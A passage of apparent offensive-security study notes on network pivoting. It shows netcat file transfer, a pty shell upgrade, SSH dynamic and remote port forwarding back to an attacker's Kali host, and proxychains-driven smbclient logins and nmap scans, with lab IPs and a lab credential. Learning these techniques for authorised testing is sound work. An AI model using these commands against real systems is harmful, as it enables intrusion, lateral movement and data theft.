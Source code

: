 On the sending end running,
```
nc -w 3 [destination] 1234 < out.file
```
will connect to the receiver and begin sending file.

### Dynamic Port Forwarding

Allows one listening socket to forward to multiple machines / ports

need a tty shell for this
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

In OpenSSH, a dynamic port forward is created with the -D option. The only argument this takes is the IP address and port we want to bind to. In this case, we want it to listen on all interfaces on port 9999. We don't have to specify a socket address to forward to. We'll also pass the -N flag to prevent a shell from being spawned.

```
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

Proxychains is a tool that can force network traffic from third party tools over HTTP or SOCKS proxies.
Proxychains uses a configuration file for almost everything, stored by default at /etc/proxychains4.conf. 
```
socks5 192.168.50.63 9999
```

prepend proxychains to command. also change host to final target host
```
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

Let's escalate this and port scan HRSHARES through our SOCKS proxy using Nmap. We'll use a TCP-connect scan (-sT), skip DNS resolution (-n), skip the host discovery stage (-Pn) and only check the top 20 ports (--top-ports=20)

```
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

### SSH Remote Port Forwarding
have reverse shell ssh back to us then we forward packets from our machine
first need to start ssh
```
sudo systemctl start ssh
sudo ss -ntplu
```

In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.

use pty shell then setup remote port forwarding
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
